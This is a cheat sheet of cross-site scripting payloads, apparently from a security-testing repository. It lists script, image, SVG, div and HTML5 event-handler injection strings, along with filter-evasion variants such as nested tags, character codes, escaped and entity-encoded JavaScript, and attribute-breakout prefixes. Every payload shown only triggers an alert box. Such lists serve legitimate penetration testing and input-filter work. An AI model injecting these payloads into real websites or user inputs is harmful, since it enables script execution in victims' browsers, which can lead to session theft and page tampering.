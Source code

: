 ### Common Payloads

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS using HTML5 tags

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
```